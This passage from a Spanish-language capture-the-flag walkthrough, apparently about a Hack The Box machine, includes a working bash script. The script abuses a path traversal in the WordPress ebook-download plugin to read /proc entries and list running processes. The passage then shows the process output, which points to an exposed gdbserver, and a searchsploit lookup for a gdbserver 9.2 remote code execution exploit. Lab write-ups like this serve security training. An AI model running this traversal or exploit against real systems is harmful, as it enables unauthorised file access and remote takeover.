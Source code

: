 Sigamos recopilando información, ahora intentaremos listar y obtener información sobre como se crearon todos los procesos que están en ejecución, para ello necesitaremos listar una serie de objetos de los procesos, puede ver más información sobre esto [aquí](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/#useful-proc-entries). Usaremos el siguiente script para enumerar los servicios:

```bash
#!/bin/bash

for pid in $(curl -s 'http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../proc/sched_debug' --output - | awk '{print $3}' | grep -oP "\d{1,6}" | sort -u); do 

	content=$(timeout 1 bash -c "curl -s "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../../../../proc/$pid/cmdline"" --output - | awk -F 'cmdline' '{print $4}' | awk -F '<script>' '{print $1}' | tr -d "\0" &)

	if [[ $content ]]; then
		echo "[*] PID $pid: " | tr -d "\n"
		echo $content
	fi

done
```

La salida nos devuelve algunas cosas interesantes, los procesos con el PID (Process IDentifier) 791, 138936, 138937 y 138942 nos muestran que esta corriendo `gdbserver` en el puerto 1337. También nos muestra un proceso (PID 788) que utiliza el comando `screen`, esto nos puede llegar a servir en la escalada de privilegios.

```plaintext
[*] PID 788: /bin/sh-cwhile true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
[*] PID 791: /bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done
[*] PID 811: sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
[*] PID 1027: /usr/sbin/mysqld
[*] PID 1032: /usr/sbin/mysqld
[*] PID 136293: /bin/sh
[*] PID 136404: /bin/bash
[*] PID 138937: bash-ccd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;
[*] PID 139002: -/bin/bash
```

**¿Qué es gdbserver?**

gdbserver es un programa informático que permite depurar otros programas de forma remota.

gdbserver cuenta con una vulnerabilidad para la versión 9.2 que nos permitira obtener un RCE (Remote Command Execution).

```plaintext
❯ searchsploit gdbserver
---------------------------------------------------------------- ------------------------- 
Exploit Title                                                   |  Path
---------------------------------------------------------------- -------------------------
GNU gdbserver 9.2 - Remote Command Execution (RCE)              | linux/remote/50539.py
```
El exploit nos pedirá que generemos una reverse shell con la herramienta msfvenom.
